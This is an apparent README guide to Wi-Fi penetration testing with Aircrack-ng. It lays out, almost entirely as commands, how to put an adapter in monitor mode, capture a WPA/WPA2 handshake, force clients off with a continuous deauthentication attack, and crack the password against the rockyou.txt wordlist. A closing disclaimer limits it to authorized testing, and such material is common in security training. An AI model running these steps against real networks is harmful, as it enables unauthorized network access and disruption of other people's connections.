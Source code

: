 # WiFi Penetration Testing with Aircrack-ng

This guide provides a step-by-step process for performing WiFi penetration testing using Aircrack-ng to capture and crack WPA/WPA2 handshakes.

## Prerequisites
- Linux system (Kali Linux recommended)
- WiFi adapter that supports monitor mode
- Aircrack-ng suite installed (`sudo apt install aircrack-ng`)
- Wordlist for password cracking

## Setup WiFi Adapter (Monitor Mode)

1. Check current mode:
   ```bash
   iwconfig
   ```
   (Look for mode=managed)

2. Kill interfering processes:
   ```bash
   sudo airmon-ng check kill
   ```

3. Start monitor mode:
   ```bash
   sudo airmon-ng start wlan0
   ```
   (Replace `wlan0` with your interface name)

4. Verify monitor mode:
   ```bash
   iwconfig
   ```
   (Should show mode=monitor and new interface name like wlan0mon)

## Scan for Nearby Networks

```bash
sudo airodump-ng wlan0mon
```
(Replace `wlan0mon` with your monitor interface)

Note down:
- BSSID (MAC address of target AP)
- CH (channel number)
- ESSID (network name)

## Capture Handshake

```bash
sudo airodump-ng --bssid <BSSID> -c <CH> -w <output_file> wlan0mon
```
Example:
```bash
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 6 -w capture wlan0mon
```

This will create a `.cap` file. Wait until you see `[WPA handshake: <BSSID>]` in the top right corner.

## Accelerate Handshake Capture (Deauth Attack)

In a new terminal:
```bash
sudo aireplay-ng --deauth 0 -a <BSSID> -c <client_MAC> wlan0mon
```
(Use 0 for continuous deauth, or specify a number of packets)

## Check for Captured Handshake

```bash
ls
```
Look for `.cap` file (e.g., `capture-01.cap`)

## Crack the Handshake

```bash
aircrack-ng <capture_file.cap> -w <wordlist_path>
```
Example:
```bash
aircrack-ng capture-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Cleanup

1. Stop monitor mode:
   ```bash
   sudo airmon-ng stop wlan0mon
   ```

2. Restart network manager:
   ```bash
   sudo systemctl start NetworkManager
   ```

## Legal Disclaimer

This guide is for educational and authorized penetration testing purposes only. Unauthorized access to computer networks is illegal. Always obtain proper authorization before testing any network.

## Wordlists

Popular wordlists for password cracking:
- rockyou.txt (included in Kali Linux)
- SecLists (https://github.com/danielmiessler/SecLists)
- CrackStation wordlist (https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

Happy (ethical) hacking! 😊
